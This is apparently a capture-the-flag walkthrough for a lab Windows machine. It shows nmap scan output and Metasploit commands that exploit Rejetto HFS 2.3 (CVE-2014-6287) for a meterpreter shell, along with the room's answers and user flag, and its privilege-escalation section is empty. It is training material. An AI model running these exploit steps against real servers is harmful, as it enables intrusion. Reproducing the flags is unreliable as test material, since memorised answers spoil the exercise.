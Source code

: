 Task 1  Introduction
---------------------

In this room you will enumerate a Windows machine, gain initial access with Metasploit, use Powershell to further enumerate the machine and escalate your privileges to Administrator.

Please note that this machine does not respond to ping (ICMP) and may take a few minutes to boot up.

1. Who is the employee of the month?

picture Present in the port 80 webserver (hosted)

--> Bill Harper


Task 2  Initial Access
-----------------------

Scan the machine with nmap. What is the other port running a web server on?

```
PORT      STATE SERVICE            REASON  VERSION
80/tcp    open  http               syn-ack Microsoft IIS httpd 8.5
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/8.5
|_http-title: Site doesn't have a title (text/html).
135/tcp   open  msrpc              syn-ack Microsoft Windows RPC
139/tcp   open  netbios-ssn        syn-ack Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       syn-ack Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
3389/tcp  open  ssl/ms-wbt-server? syn-ack
| ssl-cert: Subject: commonName=steelmountain
| Issuer: commonName=steelmountain
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2021-07-08T20:51:28
| Not valid after:  2022-01-07T20:51:28
| MD5:   8709 a020 40c7 71ec 1907 0372 5df5 4657
| SHA-1: 3b81 38bf 7186 0a82 371c 3c1d 443a 9380 bb95 dc5e
| -----BEGIN CERTIFICATE-----
| MIIC3jCCAcagAwIBAgIQITncN5pTTpdHnXhGU++U6jANBgkqhkiG9w0BAQUFADAY
| MRYwFAYDVQQDEw1zdGVlbG1vdW50YWluMB4XDTIxMDcwODIwNTEyOFoXDTIyMDEw
| NzIwNTEyOFowGDEWMBQGA1UEAxMNc3RlZWxtb3VudGFpbjCCASIwDQYJKoZIhvcN
| AQEBBQADggEPADCCAQoCggEBALzk2LgS0GGlrXEskHH8pi0br2id1tecmaIZi93t
| O1lIGrM3iY+P1DUn7xNavZhf+Sn3AP/ON3b7KXPXk8IhWN4gEOdS4BMTrp1X8f/D
| XK2LmDBkbmQkt6MJxEYSut3mfFeLoXR86cofkJSjUzb65VFv79Jhx9LUVvkwRw7t
| uAKaFEzzWmw91TiEDveFyt7XzVUj3wh5QBtzhBhhNEXiMRDRZFYTycxUO8tVCsZ7
| +PYtFuXGqZN8+5564GOk3AusIa7BiCBnmL64gunwyJSowh/FmFBfSAdsYBR/2U7H
| GVLGfYSRboHogwSPkaxcM6BEBV0U2A2Brm72paCgNTT2rNsCAwEAAaMkMCIwEwYD
| VR0lBAwwCgYIKwYBBQUHAwEwCwYDVR0PBAQDAgQwMA0GCSqGSIb3DQEBBQUAA4IB
| AQBZv4CI0Lo9rbjCpY97G3yi5h9eNyxpzgNhpcJlGUC1s5EqfxaTun/dMSA4wkHK
| AZPEJz2mqHS1FWijz0mhMPZoQtWmqiEKsheThAeeijt+zWFiiGBR/kh350qE953n
| UhBiyzIn5fnLIH/IdXkDX88dW59YLvcSh/T/I9I/SSEvHKVnxoK/cwK9jp67jMHx
| yJqYpnouqgRn9/6vCcdPJfyeAtUBPBBESn4zbZuqTmwEPGhKEQcCQ9k4WvCDioCI
| DIr/ee8g3iEXy0aegLrDpEFaQObbNzqGu/7HxUmzhE2EUCkab2APP5YsPUzL+afl
| LMp6NHY3HrfSLMx5V18P/bkh
|_-----END CERTIFICATE-----
|_ssl-date: 2021-07-09T21:01:01+00:00; -1s from scanner time.
8080/tcp  open  http               syn-ack HttpFileServer httpd 2.3
|_http-favicon: Unknown favicon MD5: 759792EDD4EF8E6BC2D1877D27153CB1
| http-methods: 
|_  Supported Methods: GET HEAD POST
|_http-server-header: HFS 2.3
|_http-title: HFS /
49152/tcp open  msrpc              syn-ack Microsoft Windows RPC
49153/tcp open  msrpc              syn-ack Microsoft Windows RPC
49154/tcp open  msrpc              syn-ack Microsoft Windows RPC
49155/tcp open  msrpc              syn-ack Microsoft Windows RPC
49156/tcp open  msrpc              syn-ack Microsoft Windows RPC
49163/tcp open  msrpc              syn-ack Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 0s, deviation: 0s, median: 0s
| nbstat: NetBIOS name: STEELMOUNTAIN, NetBIOS user: <unknown>, NetBIOS MAC: 02:28:8b:ec:85:33 (unknown)
| Names:
|   STEELMOUNTAIN<20>    Flags: <unique><active>
|   STEELMOUNTAIN<00>    Flags: <unique><active>
|   WORKGROUP<00>        Flags: <group><active>
| Statistics:
|   02 28 8b ec 85 33 00 00 00 00 00 00 00 00 00 00 00
|   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
|_  00 00 00 00 00 00 00 00 00 00 00 00 00 00
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 35667/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 24587/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 17430/udp): CLEAN (Failed to receive data)
|   Check 4 (port 39146/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-07-09T21:00:55
|_  start_date: 2021-07-09T20:51:22

```
--> 8080

2. Take a look at the other web server. What file server is running?

--> rejetto http file server

3. What is the CVE number to exploit this file server?

rejetto http file server: version 2.3

Used `searchsploit`

--> 2014-6287

4. Use Metasploit to get an initial shell. What is the user flag?

```
msfconsole -q
use exploit/windows/http/rejetto_hfs_exec
set RHOSTS <ip>
set RPORT 8080
exploit
```
Port = 8080 as webserver rejetto was running on port 8080

```
SRVHOST    0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
SRVPORT    8080             yes       The local port to listen on.
```

> This exploit has three options: SRVHOST, SRVPORT, and URIPATH.

> 1. The _SRVHOST_ optionrefers to the IP address of your current computer (i.e. the one you are using to execute thea ttack) --> Actually for building the **C2 server**

> 2. The _SRVPORT_ option refers to the port you will use for the exploitation.

- In this case: srv port 8080 => i.e. we will create a C2 channel via port 8080 On which webserver is running.

see this:

![](pic1.jpeg?raw=true)

#### Up in this image, we can see the **meterpreter shell** was able to connect to victim ip on `port: 49401` which we havn't mentioned, done by metasploit it self, but why port **4901** ??


#### If in this case `SRVHOST` is made equal to `0.0.0.0` then we don't have to worry about that much as `0.0.0.0` means any address, but that doesn't mean victim address ( that would be absurd). Here any address means any address in the LAN network of the attacker.

--> b04763b6fcf51fcd7c13abc7db4fd365


Task3: Privilege Escalation
------------------------------


